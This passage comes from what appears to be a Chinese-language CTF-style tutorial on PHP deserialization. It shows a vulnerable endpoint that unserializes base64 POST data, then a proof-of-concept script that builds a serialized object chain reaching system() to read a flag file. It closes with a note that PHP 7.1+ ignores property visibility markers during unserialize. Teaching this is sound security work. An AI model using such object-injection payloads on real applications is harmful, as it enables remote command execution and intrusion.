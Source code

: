 ```php

    public function nihao()
    {
        echo "nihao";

    }
}

@unserialize(base64_decode($_POST['a']));
```

poc

```php
<?php
highlight_file(__FILE__);
#flag is  flag.txt
class getshell
{
    public $hello;
    public function __construct()
    {
        $this->hello =['nihao'=>'system']; //关联数组 
    }
}
class b
{
    public $x;
    public $y;

    public function __construct()
    {
        $this->x=new getshell();
        $this->y='type flag.txt';
    }

}
$b = new b();
echo base64_encode(serialize($b));
```

### php7.1+ 反序列化对类属性不敏感

我们前面说了如果变量前是protected，序列化结果会在变量名前加上`\00*\00`

但在特定版本7.1以上则对于类属性不敏感，比如下面的例子即使没有`\00*\00`也依然会输出`abc`

```php
<?php
class test{
    protected $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');

```
